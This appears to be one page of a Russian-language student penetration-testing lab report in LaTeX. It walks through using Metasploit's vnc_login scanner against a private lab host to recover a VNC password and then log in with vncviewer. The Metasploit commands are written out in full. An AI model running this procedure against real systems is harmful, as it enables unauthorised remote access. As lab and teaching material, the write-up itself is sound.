 \documentclass[a4paper, 14pt]{article}				%
\begin{document}
\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{rsrc/lab5_vnc_search}
\caption{Некоторые доступные эксплоиты по VNC (protocol 3.3). Нам нужен vnc\_login}
\end{figure}

Настраиваем и запускаем эксплоит
\begin{Verbatim}[frame=single]
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 192.168.32.132
exploit
\end{Verbatim}

\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{rsrc/lab5_vnc_exploit}
\caption{Результат работы vnc\_login}
\end{figure}

С помощью утилиты vncviewer подключаемся к атакуемой машине, зная пароль.
\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{rsrc/lab5_vnc_logged}
\caption{Доступ к консоли атакуемой машины получен}
\end{figure}
\end{document}
